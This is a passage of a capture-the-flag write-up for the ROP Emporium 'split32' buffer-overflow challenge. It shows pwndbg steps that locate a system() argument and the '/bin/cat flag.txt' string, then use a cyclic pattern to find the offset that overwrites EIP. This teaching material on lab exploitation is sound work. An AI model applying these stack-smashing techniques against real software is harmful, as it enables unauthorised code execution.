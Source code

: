 The arguments for a 32-bit function call are pushed on the stack. At `usefulFunction+9`, we can see the argument for the system call being pushed onto the stack.

Let's see what the argument is.

```
pwndbg> x/s 0x804870e
0x804870e:      "/bin/ls"
```

We have to replace this argument with `/bin/cat flag.txt`.

### `/bin/cat flag.txt`

```
pwndbg> search /bin/cat
Searching for value: '/bin/cat'
split32         0x804a030 '/bin/cat flag.txt'
```

We can link this string with our system call in order to read the `flag.txt` file.

In this case we do not need a `pop rdi` gadget because as we saw the arguments are not stored in registers.

### Cyclic pattern

We now have to find the offset using a cyclic pattern.

```gdb
pwndbg> cyclic
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

Let's provide this as input.

```
───────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────
 EAX  0xb
 EBX  0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
 ECX  0xf7fae9b4 (_IO_stdfile_1_lock) ◂— 0
 EDX  1
 EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0
 ESI  0xffffcea4 —▸ 0xffffcfde ◂— '/home/kunal/ropemporium/split/split32'
 EBP  0x6161616b ('kaaa')
 ESP  0xffffcdd0 ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaa'
 EIP  0x6161616c ('laaa')
─────────────────────[ DISASM / i386 / set emulate on ]─────────────────────
Invalid address 0x6161616c










─────────────────────────────────[ STACK ]──────────────────────────────────
00:0000│ esp 0xffffcdd0 ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaa'
01:0004│     0xffffcdd4 ◂— 'naaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaa'
02:0008│     0xffffcdd8 ◂— 'oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaa'
03:000c│     0xffffcddc ◂— 'paaaqaaaraaasaaataaauaaavaaawaaaxaaa'
04:0010│     0xffffcde0 ◂— 'qaaaraaasaaataaauaaavaaawaaaxaaa'
05:0014│     0xffffcde4 ◂— 'raaasaaataaauaaavaaawaaaxaaa'
06:0018│     0xffffcde8 ◂— 'saaataaauaaavaaawaaaxaaa'
07:001c│     0xffffcdec ◂— 'taaauaaavaaawaaaxaaa'
```